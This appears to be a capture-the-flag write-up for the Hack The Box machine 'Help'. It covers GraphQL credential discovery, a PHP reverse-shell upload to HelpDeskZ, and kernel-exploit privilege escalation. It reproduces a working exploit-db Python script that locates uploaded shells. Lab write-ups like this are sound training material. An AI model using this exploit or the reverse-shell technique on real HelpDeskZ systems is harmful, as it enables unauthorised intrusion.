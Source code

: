 ```yaml
---
title: 'HTB: Help'
date: '2025-04-26'
excerpt: 'Help is an Easy Linux box which has a GraphQL endpoint which can be enumerated get a set of credentials for a HelpDesk software. The software is vulnerable to blind SQL injection which can be exploited to get a password for SSH Login. Alternatively an unauthenticated arbitrary file upload can be exploited to get RCE. Then the kernel is found to be vulnerable and can be exploited to get a root shell.'
readingTime: 3
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Easy', 'Medium', 'Linux']
author: 'pir4cy'
coverImage: '/images/htb/covers/help-cover.png'
---
```


# Help

## Info
  * IP : 10.10.10.121
  * OS : Linux
  * DIfficulty: Easy/Medium

## System Enumeration

### NMAP
![nmap](/images/htb/machines/Help/nmap.png "NMAP")

### Port 80
![port 80](/images/htb/machines/Help/port80.png "Port 80")

### Port 3000
![port 3000](/images/htb/machines/Help/port3k.png "Port 3000")

nmap shows port 3000 hosts the node.js express framework, loading up port 3000 we see that we need to enter a query.  
A quick google search for "query + nodejs + express" gives us a new keyword "graphql".  

So, we check for graphql by simply typing `/graphql` 

### Finding Credentials

To read and interact with GraphQL properly, I used the JSON decoder of the BurpSuite.  
![Burp Suite](/images/htb/machines/Help/credsfound.png "Burp Suite")

The password hash found can be easily cracked using online utilities such as crackstation.  
![Cracked Password](/images/htb/machines/Help/crackedpw.png "Cracked Password")

### Support Page

HelpDeskZ is being used for the support API of the website, and since we've already found the credentials, we can easily login.  
![Support Page](/images/htb/machines/Help/supportPage.png "Support Page")

![Logged In](/images/htb/machines/Help/loggedInHelpDeskz.png "Logged In")

#### Exploitation

Looking for a possible exploit, I found `https://www.exploit-db.com/exploits/40300` to be of use.  

```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

We can upload a reverse shell through the HelpDeskZ portal along with a ticket and use the given python code to find our uploaded shell.  

*Although it can be done without logging in, the login helped me with the timezone matching problem, without which I'd have to edit the exploit.py according to my timezone.*

Since the tickets formed, keep changing with respect to the time, we match our timezone with the timezone of the HelpDeskz portal.  

![TimeServer](/images/htb/machines/Help/timezoneServer.png "Time Zone Server Change")

![TimeClient](/images/htb/machines/Help/timezoneClient.png "TIme Zone Client Change")

Now, we should upload our shell.  

Using a simple `php-reverse-shell` provided by `pentestmonkey`, I simply changed the required values and uploaded it as a ticket file.  

![uploaded shell](/images/htb/machines/Help/uploadingShell.png "Uploading the php shell")

As I submitted my ticket, I received the error `File Not Allowed`, but looking at the source code of HelpDeskz, this error is bogus and the file is still uploaded.  

So, we run the exploit  
![Python Exploit](/images/htb/machines/Help/pyexploit.png "PyExploit")  

File found! So we create a listener and open up our shell and voila! We are in
![Listening for Shell](/images/htb/machines/Help/listeningForShell.png "Listening for Shell")  

## User Found

![User Found](/images/htb/machines/Help/userfound.png "User")

## Privilege Escalation

Enumerating the system, we get the following information  
![PrivEsc 1](/images/htb/machines/Help/privesc1.png "Privilege Enumeration")

Searching for a possible exploit on searchsploit  
![SearchSploit](/images/htb/machines/Help/searchsploit.png "Searchsploit")

Looking up the kernel exploit and running it on the machine, we get root!  
![Root Gained](/images/htb/machines/Help/rootgained.png "Rooted!")

Thank you for reading!
